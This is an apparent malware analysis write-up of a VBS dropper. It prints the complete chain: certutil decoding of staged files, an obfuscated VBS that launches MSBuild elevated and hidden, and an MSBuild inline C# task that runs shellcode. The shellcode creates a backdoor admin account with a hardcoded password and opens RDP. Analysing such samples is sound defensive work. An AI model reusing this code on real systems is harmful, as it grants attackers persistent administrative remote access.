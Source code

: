 <br>

# Sample Details
----
Sample Name - <span style="color:#00b0f0">crtupdate.vbs</span>
Malware Type - <span style="color:#c00000">Malware Dropper</span>
<br>

# Analysis
---
Contents of vbs file -

```
Dim WshShell, oExec
Set WshShell = CreateObject("WScript.Shell")

Set oExec = WshShell.Exec("certutil -decode one.crt C:\Users\Public\Documents\one.vbs")
WScript.Sleep 1000
Set oExec = WshShell.Exec("certutil -decode two.crt C:\Users\Public\Documents\xml.xml")
WScript.Sleep 1000
Set oExec = WshShell.Exec("cmd.exe /c C:\Users\Public\Documents\one.vbs")
```
![[Pasted image 20230804231858.png]]
![[Pasted image 20230804231925.png]]
This vbs script is decoding the two crt files and writing them to `C:\Users\Public\Documents\` .
After running the vbs file,we look onto the contents of `C:\Users\Public\Documents`.

![[Pasted image 20230804232448.png]]

Two files - one.vbs and xml.xml have been created. 

One.vbs-
```
getUpdate()

Sub getUpdate()
a = "CvVv:vVv\vVvWvVvivVvnvVvdvVvovVvwvVvsvVv\vVvMvVvivVvcvVvrvVvovVvsvVvovVvfvVvtvVv.vVvNvVvEvVvTvVv\vVvFvVvrvVvavVvmvVvevVvwvVvovVvrvVvkvVv\vVvvvVv4vVv.vVv0vVv.vVv3vVv0vVv3vVv1vVv9vVv\vVvMvVvSvVvBvVvuvVvivVvlvVvdvVv.vVvevVvxvVvevVv"

aa = "CvVv:vVv\vVvuvVvsvVvevVvrvVvsvVv\vVvPvVvuvVvbvVvlvVvivVvcvVv\vVvDvVvovVvcvVvuvVvmvVvevVvnvVvtvVvsvVv\vVvxvVvmvVvlvVv.vVvxvVvmvVvlvVv"

aaa = update(a, "vVv")
aaaa = update(aa, "vVv")

Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
    obj.Document.Application.ShellExecute aaa, aaaa, Null, "runas", 0

End Sub
Function update(ccj, jjc)
Dim str
str = Replace(ccj, jjc, "")
update = str
End Function
```

xml.xml-
```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">          <Target Name="WDSAdmin">
            <ClassExample />
          </Target>
          <UsingTask
            TaskName="ClassExample"
            TaskFactory="CodeTaskFactory"
            AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
            <Task>

              <Code Type="Class" Language="cs">
              <![CDATA[
                using System;
                using System.Runtime.InteropServices;
                using Microsoft.Build.Framework;
                using Microsoft.Build.Utilities;
                public class ClassExample :  Task, ITask
                {
                  private static UInt32 MEM_COMMIT = 0x1000;
                  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
                  [DllImport("kernel32")]
                    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
                    UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
                  [DllImport("kernel32")]
                    private static extern IntPtr CreateThread(
                    UInt32 lpThreadAttributes,
                    UInt32 dwStackSize,
                    UInt32 lpStartAddress,
                    IntPtr param,
                    UInt32 dwCreationFlags,
                    ref UInt32 lpThreadId
                    );
                  [DllImport("kernel32")]
                    private static extern UInt32 WaitForSingleObject(
                    IntPtr hHandle,
                    UInt32 dwMilliseconds
                    );
                  public override bool Execute()
                  {
                    byte[] slcd = new byte[] {0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5,0x63,0x6d,0x64,0x2e,0x65,0x78,0x65,0x20,0x2f,0x6b,0x20,0x22,0x6e,0x65,0x74,0x20,0x6c,0x6f,0x63,0x61,0x6c,0x67,0x72,0x6f,0x75,0x70,0x20,0x22,0x52,0x65,0x6d,0x6f,0x74,0x65,0x20,0x44,0x65,0x73,0x6b,0x74,0x6f,0x70,0x20,0x55,0x73,0x65,0x72,0x73,0x22,0x20,0x2f,0x61,0x64,0x64,0x20,0x26,0x20,0x6e,0x65,0x74,0x20,0x75,0x73,0x65,0x72,0x20,0x2f,0x61,0x64,0x64,0x20,0x77,0x64,0x73,0x61,0x64,0x6d,0x69,0x6e,0x20,0x71,0x71,0x71,0x71,0x31,0x31,0x31,0x31,0x20,0x26,0x20,0x6e,0x65,0x74,0x20,0x6c,0x6f,0x63,0x61,0x6c,0x67,0x72,0x6f,0x75,0x70,0x20,0x61,0x64,0x6d,0x69,0x6e,0x69,0x73,0x74,0x72,0x61,0x74,0x6f,0x72,0x73,0x20,0x77,0x64,0x73,0x61,0x64,0x6d,0x69,0x6e,0x20,0x2f,0x61,0x64,0x64,0x20,0x26,0x20,0x6e,0x65,0x74,0x20,0x6c,0x6f,0x63,0x61,0x6c,0x67,0x72,0x6f,0x75,0x70,0x20,0x22,0x52,0x65,0x6d,0x6f,0x74,0x65,0x20,0x44,0x65,0x73,0x6b,0x74,0x6f,0x70,0x20,0x55,0x73,0x65,0x72,0x73,0x22,0x20,0x77,0x64,0x73,0x61,0x64,0x6d,0x69,0x6e,0x20,0x2f,0x61,0x64,0x64,0x20,0x26,0x20,0x72,0x65,0x67,0x20,0x61,0x64,0x64,0x20,0x22,0x48,0x4b,0x45,0x59,0x5f,0x4c,0x4f,0x43,0x41,0x4c,0x5f,0x4d,0x41,0x43,0x48,0x49,0x4e,0x45,0x5c,0x53,0x59,0x53,0x54,0x45,0x4d,0x5c,0x43,0x75,0x72,0x72,0x65,0x6e,0x74,0x43,0x6f,0x6e,0x74,0x72,0x6f,0x6c,0x53,0x65,0x74,0x5c,0x43,0x6f,0x6e,0x74,0x72,0x6f,0x6c,0x5c,0x54,0x65,0x72,0x6d,0x69,0x6e,0x61,0x6c,0x20,0x53,0x65,0x72,0x76,0x65,0x72,0x22,0x20,0x2f,0x76,0x20,0x66,0x44,0x65,0x6e,0x79,0x54,0x53,0x43,0x6f,0x6e,0x6e,0x65,0x63,0x74,0x69,0x6f,0x6e,0x73,0x20,0x2f,0x74,0x20,0x52,0x45,0x47,0x5f,0x44,0x57,0x4f,0x52,0x44,0x20,0x2f,0x64,0x20,0x30,0x20,0x2f,0x66,0x20,0x26,0x20,0x6e,0x65,0x74,0x73,0x68,0x20,0x61,0x64,0x76,0x66,0x69,0x72,0x65,0x77,0x61,0x6c,0x6c,0x20,0x66,0x69,0x72,0x65,0x77,0x61,0x6c,0x6c,0x20,0x61,0x64,0x64,0x20,0x72,0x75,0x6c,0x65,0x20,0x6e,0x61,0x6d,0x65,0x3d,0x22,0x4f,0x70,0x65,0x6e,0x20,0x52,0x65,0x6d,0x6f,0x74,0x65,0x20,0x44,0x65,0x73,0x6b,0x74,0x6f,0x70,0x22,0x20,0x70,0x72,0x6f,0x74,0x6f,0x63,0x6f,0x6c,0x3d,0x54,0x43,0x50,0x20,0x64,0x69,0x72,0x3d,0x69,0x6e,0x20,0x6c,0x6f,0x63,0x61,0x6c,0x70,0x6f,0x72,0x74,0x3d,0x33,0x33,0x38,0x39,0x20,0x61,0x63,0x74,0x69,0x6f,0x6e,0x3d,0x61,0x6c,0x6c,0x6f,0x77,0x22,0x00};

                      UInt32 funcAddr = VirtualAlloc(0, (UInt32)slcd.Length,
                        MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                      Marshal.Copy(slcd, 0, (IntPtr)(funcAddr), slcd.Length);
                      IntPtr hThread = IntPtr.Zero;
                      UInt32 threadId = 0;
                      IntPtr pinfo = IntPtr.Zero;
                      hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
                      WaitForSingleObject(hThread, 0xFFFFFFFF);
                      return true;
                  }
                }
              ]]>
              </Code>
            </Task>
          </UsingTask>
        </Project>
```
We see a shellcode in the xml file.
After de-obfuscating the vbs file, we get-
![[Pasted image 20230804232956.png]]
So this file uses <span style="color:#ffff00">MSBuild.exe</span> to run the xml.xml file in a hidden window with runas(the file will be run as Administrator).So the shellcode in the xml file will be run.

After detonating the vbs script , it can be seen that the shellcode in the xml file creates a user to the remote users and Administrator groups. After that it opens up RDP . 
![[Pasted image 20230804234928.png]]
<br>

# Conclusion
----
The malicious vbs script creates a vbs and xml file and when run it creates an admin remote user. The attacker then can logon as that user and can pwn the machine.